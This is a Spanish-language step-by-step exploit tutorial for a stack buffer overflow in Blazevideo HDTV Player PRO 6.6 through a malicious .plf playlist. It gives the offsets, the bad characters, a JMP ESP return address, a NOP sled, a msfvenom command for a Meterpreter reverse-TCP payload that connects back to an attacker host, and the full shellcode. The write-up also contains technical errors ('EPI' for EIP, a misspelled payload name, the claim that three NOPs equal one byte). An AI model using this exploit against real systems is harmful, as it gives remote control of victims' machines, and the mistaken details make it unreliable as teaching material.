




# Blazevideo HDTV player PRO 6.(Bufferoverflow)#

Lo siguiente es la muestra de cómo gracias a una mala estructura de programación se es posible modificar el registro EPI y manipularlo a conveniencia, para ejecutar codigo malicioso.

##Payload##

Lo haremos por medio de un archivo de lista de reproducción .plf  (play list)

## Requerimientos ##

+ Metasploit

+ Pattern-create.rb
	
	1. Generar cadena aleatorio
	* Ubicar registro EIP para el salto

+ Pattern-offset.rb 
	
	1. Calcular direccion que apunta a la sima del stack
	* Calcular espacios entre saldo y sima

+ Immunity-debugger
	
	1. Nos permite monitorizar el proceso en tiempo de ejecución 
	* Codigo assembler, registros, stack, data en formato hex

* Sambox (Opcional)
	* Nos permite ejecutar el software victima en un ambiente virtualizado


##Script's##


+ CHAR-malicioso.py

	* Generaremos todos los caracteres posibles 

+ ExploitA.py

	1. Encarga de inyectar una cadena inicial
	* Confirmar la modificación del registro EPI 
             
+ Stack.py
	
	1. Ya teniendo la dirección a la que apunta el registro EPI, Ingresamos nueva cadena de caracteres

+ StackB.py
	1. Comprobamos que acepte todos los caracteres posibles
	* Stack.py + CHAR-malicioso.py = stackB.py 

* Finalexploit.py
	1. Este código genera el payload .plf listo para vulnerar blazevideo HDTV player PROversion 6.6


## Pasos ##

* Comprovamos que el registro EPI es modificable, para eso eso usamos el script  **exploitA.py**




Con esto comprobamos que existen un bufferoverflow, ya que los registros consiguiente al que debería guardar la variable de entrada se han modificado, y lo más importante hemos alcanzado el registro EPI 

* Después de comprobar que el registro es modificable, usamos el script en ruby  **pattern-create.rb**. Este lo encontramos en la siguiente ruta **/usr/share/metasploit-framework/tools/exploit/pattern_create.rb**.

	Este nos permite crear una cadena aleatoria de caracteres, la cual va a ser inyectada con el único objetivo de encontrar de ubicar la dirección del registro que apunta a la sima del stack, donde queremos que se ejecute nuestra shellcode.

	* Después de generar la cadena de caracteres, la agregamos al script **stack.py** y ejecutamos 

```
Usage: ./pattern_create.rb [options]
	Example: ./pattern_create.rb -l 50 -s ABC,def,123	Ad1Ad2Ad3Ae1Ae2Ae3Af1Af2Af3Bd1Bd2Bd3Be1Be2Be3Bf1Bf

	Options:
 		   -l, --length <length>            The length of the pattern
   	                -s, --sets <ABC,def,123>         Custom Pattern Sets
   		   -h, --help                       Show this message

Nota: con '-l' ingresaremos el número de caracteres que deseamos generar, en nuestro caso 1000
```

* Teniendo la dirección a la que apunta ejecutamos el script en ruby **pattern-offset.rb**, lo encontramos en la siguiente ruta **/usr/share/metasploit-framework/tools/exploit/pattern-offset.rb**.
	Este nos ayuda a calcular la cantidad de bytes necesaria para llegar hasta donde se 	encuentra el 	registro EPI y poder modificarlo

```
	Example: ./pattern_offset.rb -q Aa3A
	[*] Exact match at offset 9

	Options:
	    -q, --query Aa0A                 Query to Locate
	    -l, --length <length>            The length of the pattern
	    -s, --sets <ABC,def,123>         Custom Pattern Sets
  	    -h, --help                       Show this message
  
Nota: con '-q' ingresaremos la dirección a la que apunta el registro EPI, en nuestro caso la dirección es  (37694136), la respuesta nos dice que necesitamos una cadena de 260 caracteres para llegar a el registro EPI
```




* En el mismo script **pattern-offset.rb**, calculamos la cantidad necesaria para llegar a la sima del stack, Esto lo hacemos viendo los primero 4 caracter que se encuentrar en la sima del stack, que en nuestro caso es **j3Aj**, el cual pertenece ala cadena generada por **pattern_create**

* Despues de ejecutar el comando  **pattern-offset.rb -q j3Aj**, no da un resultado de 280, que es la cantidad de caracteres necesaria para llevar a la sima del stack.


* Teniendo la cantidad de bytes necesaria para llegar hasta el registro EPI, ingresamos un string basura de ese tamaño

	* después de esta ingresamos un valor aleatorio pero reconocible, en nuestro caso "BBBB" que en el hex es 42424242
	por ende, después de la ejecución el registro EPI debe estar apuntando hacia esto, esto lo veremos 	gracias a la sección el stack en el sofware immunity-debuger
	
	


* Ya teniendo lo anterior comprobado, nos aseguramos que el software victima soporte el fuzzing de todos los caracteres posible

	* Primero generamos todos los caracteres posibles con el script -> -CHAR-malicioso.py 
ingresamos esa cadena al script -> stackB.py y ejecutamos
     	*[*] generando el test de caracteres
	[*]  Generacion completada
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"


	* En el caso de blazevideo version  6.6 Este nos rechaza los  caracteres **x00** también conocido como byte nulo y **x0a,x1**, estos  debe ser eliminados al momento de generar la shellcode, para que asi el flujo de ejecución sea continuo y no se interrumpa **para comprobar que todo se llevó a cabo, primero deben estar el string basura ingresado, después la dirección a la que apunta EPI y finalmente desde X00 hasta FFFF**
 



**Teniendo en cuenta lo anterior y siendo concientes de que podemos modificar el registro EPI, podemos dejar de  inyectar caracteres aleorior e introducir un shellcode.**

Para generar la shellcode usaremos **msfvenom** de metasploit

` msfvenom -p windows/meterpreter/reveser_tcp lhost=<ip atacante>  lport=<puerto atacante> -f c -a 	x86 -b "\x00\x0a\x1a" `

El anterior comando nos generara un shellcode, de tipo reverse tcp, que se conecta al socket <IP,PORT>, al  agregamos la salida por pantalla, la arquitectura de 32bits  y además  excluimos los caracteres que no permiten la ejecución correcta 	de nuestra shellcode cuando se encuentre en ala pila


Shellcode

"\xb8\x9e\xfd\xf6\xd7\xda\xcb\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1"
"\x54\x31\x45\x13\x03\x45\x13\x83\xc5\x9a\x1f\x03\x2b\x4a\x5d"
"\xec\xd4\x8a\x02\x64\x31\xbb\x02\x12\x31\xeb\xb2\x50\x17\x07"
"\x38\x34\x8c\x9c\x4c\x91\xa3\x15\xfa\xc7\x8a\xa6\x57\x3b\x8c"
"\x24\xaa\x68\x6e\x15\x65\x7d\x6f\x52\x98\x8c\x3d\x0b\xd6\x23"
"\xd2\x38\xa2\xff\x59\x72\x22\x78\xbd\xc2\x45\xa9\x10\x59\x1c"
"\x69\x92\x8e\x14\x20\x8c\xd3\x11\xfa\x27\x27\xed\xfd\xe1\x76"
"\x0e\x51\xcc\xb7\xfd\xab\x08\x7f\x1e\xde\x60\x7c\xa3\xd9\xb6"
"\xff\x7f\x6f\x2d\xa7\xf4\xd7\x89\x56\xd8\x8e\x5a\x54\x95\xc5"
"\x05\x78\x28\x09\x3e\x84\xa1\xac\x91\x0d\xf1\x8a\x35\x56\xa1"
"\xb3\x6c\x32\x04\xcb\x6f\x9d\xf9\x69\xfb\x33\xed\x03\xa6\x5b"
"\xc2\x29\x59\x9b\x4c\x39\x2a\xa9\xd3\x91\xa4\x81\x9c\x3f\x32"
"\xe6\xb6\xf8\xac\x19\x39\xf9\xe5\xdd\x6d\xa9\x9d\xf4\x0d\x22"
"\x5e\xf9\xdb\xdf\x5b\x6d\x24\xb7\x65\x66\xcc\xca\x65\x5a\xb4"
"\x42\x83\xca\x94\x04\x1c\xaa\x44\xe5\xcc\x42\x8f\xea\x33\x72"
"\xb0\x20\x5c\x18\x5f\x9d\x34\xb4\xc6\x84\xcf\x25\x06\x13\xaa"
"\x65\x8c\x96\x4a\x2b\x65\xd2\x58\x5b\x14\x1c\xa1\x9b\xbd\x1c"
"\xcb\x9f\x17\x4a\x63\x9d\x4e\xbc\x2c\x5e\xa5\xbe\x2b\xa0\x38"
"\xf7\x40\x96\xae\xb7\x3e\xd6\x3e\x38\xbf\x80\x54\x38\xd7\x74"
"\x0d\x6b\xc2\x7b\x98\x1f\x5f\xe9\x23\x76\x33\xba\x4b\x74\x6a"
"\x8c\xd3\x87\x59\x8f\x14\x77\x1f\xad\xbc\x10\xdf\xf1\x3c\xe1"
"\xb5\xf1\x6c\x89\x42\xde\x83\x79\xaa\xf5\xcb\x11\x21\x9b\xbe"
"\x80\x36\xb6\x1f\x1d\x36\x34\x84\x48\xb9\xbb\x3b\x75\x3b\x80"
"\xed\x4c\x49\xc1\x2d\xeb\x42\x78\x13\x5a\xc9\x82\x07\x9c\xd8"
```
* Después de esto debemos manipular el registro de salto EPI para que nos lleve a la sima de la pila, para eso usaremos CALL JUMP  ESP
esta nos permite llegar a una dirección de memoria que no contiene caracteres nulos y ademas a dirección permitidas, esto dado a que son direcciones de las librerías dll de windows, que son necesaria para la mayoría de programa del S.O

	* Esto lo encontramos en la pestalla view-> executable modules y podremos ver las dll disponible, en nuestro caso usaremos la SHELL32, ya que todas las que finalicen en 32 nos indica que cumplen funcionalidades importantes en la raíz del sistemas

* Después de esto buscamos el código ensamblador el código jmp a ESP y y vemos a que dirección apunta 

* Finalmente, nuestro exploit se conforma de las siguientes partes

	* String basura, que es del tamaño de bytes para llegar hasta el registro EPI, para le caso de blazevideo es de 260 
	* En este punto estamos sobre el registro EPI el cual modificaremos con la dirección de salto JMP A ESP la cual nos llevara a la sima de pila **La dirección debe ser puesta en formato hex y con reves por el formato little endian, el cual viene por defecto en procesadores como intel**

``` 
Ejemplo
 direccion = 750927EF

 En nuestro codigo la variable a inyectar debe estar de la siguiente forma
 var = "\xEF\x27\x09\x75"
```
 

* En ese paso sucede algo interesante, nuestro código se encuentra correcto, pero no se ejecuta nuestra shellcode. Esto se debe a que la cantidad de bytes que necesitábamos para llegar a EIP no es la misma ahora que nos encontramos en el stack, por eso al saltar a la sima he inyectar la shellcode esta no se ejecuta ya que existen espacios entre el salto y donde se ejecuta nuestra shell.

	Para esto tenemos los nops, que nos ayudan a unir el vacio entre la dirección donde saltamos con **JMP ESP** y la dirección donde ejecutamos nuestra shellcode, para hacernos razon de esto podemos fiarnos de la cantidad de bytes que el script **pattern_offset** nos dio

	En el caso de EPI la cantidad de  bytes necesarios para llegar a ese registro eran 260

	En el caso de ESP que apunta ala sima del stack la cantidad de bytes necesario para llegar a ese registro eran 280 

	Por lo tanto, tenemos una diferencia de 20 bytes que no permiten que el flujo de ejecución llegue hasta a dirección donde nuestra shellcode se ejecuta

	Aproximada mente 3 nops equivaldrían a un byte, para esto usaremos como enlace 60 nops este se agregaran en nuestro script final entre el saldo a la sima del stack y la shellcode
```	


* Finalmente inyéctanos y nuestra shellcode ejecutada con éxito


